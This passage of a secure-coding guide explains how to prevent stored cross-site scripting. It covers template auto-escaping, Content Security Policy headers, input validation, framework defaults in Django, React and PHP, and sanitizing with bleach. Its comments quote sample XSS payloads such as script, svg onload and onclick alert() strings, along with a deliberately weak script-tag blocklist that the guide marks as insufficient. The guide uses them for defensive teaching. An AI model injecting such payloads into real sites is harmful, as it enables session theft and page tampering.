@app.route('/blog/post/<int:post_id>')
def view_post_template(post_id):
    db = get_db()
    comments = db.execute(
        'SELECT text, author FROM comments WHERE post_id = ?',
        (post_id,)
    ).fetchall()
    
    # Jinja2 automatically escapes {{ variables }}
    return render_template('post.html', comments=comments)

# Template: templates/post.html
# <div class="comments">
#   
#     <div>
#       <strong>{{ comment.author }}</strong>
#       <p>{{ comment.text }}</p>  <!-- Auto-escaped! -->
#     </div>
#   
# </div>
```

---

### **Fix 2: Content Security Policy (CSP)**

```python
# ✅ SECURE - Add CSP headers
from flask import Flask, make_response

@app.after_request
def add_security_headers(response):
    # Content Security Policy
    response.headers['Content-Security-Policy'] = (
        "default-src 'self'; "
        "script-src 'self'; "  # Only allow scripts from same origin
        "object-src 'none'; "  # Disable plugins
        "base-uri 'self'; "
        "frame-ancestors 'none';"
    )
    
    # Additional security headers
    response.headers['X-Content-Type-Options'] = 'nosniff'
    response.headers['X-Frame-Options'] = 'DENY'
    response.headers['X-XSS-Protection'] = '1; mode=block'
    
    return response

# With CSP, even if XSS payload is injected:
# └── Inline <script> tags won't execute
#     └── Only scripts from 'self' (same origin) allowed
#     └── Blocks: <script>alert(1)</script>
#     └── Blocks: 
#     └── Defense in depth ✓
```

---

### **Fix 3: Input Validation (Defense in Depth)**

```python
# ❌ INSUFFICIENT - Input validation alone doesn't prevent XSS
import re
from flask import Flask, request, abort

@app.route('/post-comment', methods=['POST'])
def post_comment_validation_only():
    comment = request.form.get('comment')
    
    # Input validation (helpful but not enough)
    if not comment or len(comment) > 1000:
        abort(400, 'Invalid comment length')
    
    # Check for suspicious patterns (blocklist - BAD approach)
    if '<script>' in comment.lower():
        abort(400, 'Invalid comment content')
    
    # ❌ Still vulnerable to: 
    # ❌ Still vulnerable to: <ScRiPt>alert(1)</ScRiPt>
    # ❌ Still vulnerable to: <svg onload=alert(1)>
    
    # Store comment
    db.execute('INSERT INTO comments (text) VALUES (?)', (comment,))
    
    return redirect('/blog')

# ✅ BETTER - Input validation + output encoding
from markupsafe import escape
import re

@app.route('/post-comment', methods=['POST'])
def post_comment_secure():
    comment = request.form.get('comment')
    name = request.form.get('name')
    
    # Input validation (defense in depth, not primary defense)
    if not comment or len(comment) > 1000:
        abort(400, 'Comment too long')
    
    # Optional: Whitelist allowed characters (very restrictive)
    # Only if your use case allows it
    if not re.match(r'^[a-zA-Z0-9\s\.\,\!\?\'\"]+$', comment):
        abort(400, 'Invalid characters in comment')
    
    # Store raw data (encoding happens at output)
    db.execute(
        'INSERT INTO comments (text, author) VALUES (?, ?)',
        (comment, name)
    )
    db.commit()
    
    return redirect('/blog/post/1')

# CRITICAL: Always encode at output regardless of input validation!
@app.route('/blog/post/<int:post_id>')
def view_post(post_id):
    comments = db.execute('SELECT text, author FROM comments').fetchall()
    
    # PRIMARY DEFENSE: Output encoding
    return render_template('post.html', comments=comments)
    # Template auto-escapes all {{ variables }}
```

---

### **Fix 4: Use Modern Frameworks**

```python
# ✅ Django (Auto-escaping templates)
from django.shortcuts import render
from .models import Comment

def blog_post(request, post_id):
    comments = Comment.objects.filter(post_id=post_id)
    
    # Django templates auto-escape by default
    return render(request, 'blog_post.html', {
        'comments': comments
    })

# Template: blog_post.html
# 
#   <div class="comment">
#     <strong>{{ comment.author }}</strong>  <!-- Auto-escaped -->
#     <p>{{ comment.text }}</p>  <!-- Auto-escaped -->
#   </div>
# 

# To disable escaping (DANGEROUS - avoid):
# {{ comment.text|safe }}  <!-- Only use if data is already sanitized! -->
```

```javascript
// ✅ React (Auto-escaping JSX)
function CommentList({ comments }) {
  return (
    <div className="comments">
      {comments.map(comment => (
        <div key={comment.id}>
          <strong>{comment.author}</strong>
          {/* JSX automatically escapes {variables} */}
          <p>{comment.text}</p>
        </div>
      ))}
    </div>
  );
}

// React prevents XSS by default
// To bypass (DANGEROUS - avoid):
// <div dangerouslySetInnerHTML={{ __html: comment.text }} />
```

```php
<?php
// ✅ PHP with proper escaping
function display_comments($post_id) {
    $db = new PDO('sqlite:blog.db');
    $stmt = $db->prepare('SELECT text, author FROM comments WHERE post_id = ?');
    $stmt->execute([$post_id]);
    $comments = $stmt->fetchAll();
    
    echo '<div class="comments">';
    foreach ($comments as $comment) {
        // htmlspecialchars() encodes for HTML context
        $safe_author = htmlspecialchars($comment['author'], ENT_QUOTES, 'UTF-8');
        $safe_text = htmlspecialchars($comment['text'], ENT_QUOTES, 'UTF-8');
        
        echo "<div>";
        echo "<strong>$safe_author</strong>";
        echo "<p>$safe_text</p>";
        echo "</div>";
    }
    echo '</div>';
}
?>
```

---

### **Fix 5: Sanitize HTML (If Rich Text Needed)**

```python
# If you MUST allow some HTML formatting:

# ✅ Use HTML sanitizer library
import bleach

ALLOWED_TAGS = ['p', 'br', 'strong', 'em', 'u', 'a']
ALLOWED_ATTRIBUTES = {'a': ['href', 'title']}

@app.route('/post-comment', methods=['POST'])
def post_comment_html():
    comment = request.form.get('comment')
    
    # Sanitize: Remove dangerous tags/attributes
    clean_comment = bleach.clean(
        comment,
        tags=ALLOWED_TAGS,
        attributes=ALLOWED_ATTRIBUTES,
        strip=True
    )
    
    # Store sanitized HTML
    db.execute('INSERT INTO comments (text) VALUES (?)', (clean_comment,))
    
    return redirect('/blog')

# Display sanitized HTML (mark as safe)
@app.route('/blog/post/<int:post_id>')
def view_post(post_id):
    comments = db.execute('SELECT text FROM comments').fetchall()
    
    # Since we sanitized on input, we can mark as safe
    return render_template('post.html', comments=comments)

# Template: post.html
# 
#   {{ comment.text|safe }}  <!-- Safe because sanitized -->
# 

# What bleach does:
# Input: <script>alert(1)</script><p>Hello</p>
# Output: <p>Hello</p>  (script tag removed)
#
# Input: <p onclick="alert(1)">Click</p>
# Output: <p>Click</p>  (onclick removed)
```

---
